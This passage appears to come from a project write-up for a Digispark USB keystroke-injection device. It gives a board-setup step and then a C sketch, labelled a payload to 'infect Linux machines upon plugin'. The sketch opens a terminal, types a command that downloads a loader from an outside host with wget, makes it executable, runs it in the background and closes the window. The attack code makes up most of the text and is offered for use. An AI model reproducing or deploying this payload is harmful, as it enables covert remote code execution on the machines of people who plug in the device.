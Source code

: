 ![digistump_default](./images/digistump_setboard.png)
**Figure 8:** Set board to Digispark Default.


### Linux Payload

The following code is what we've developed to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 *
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 *
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```
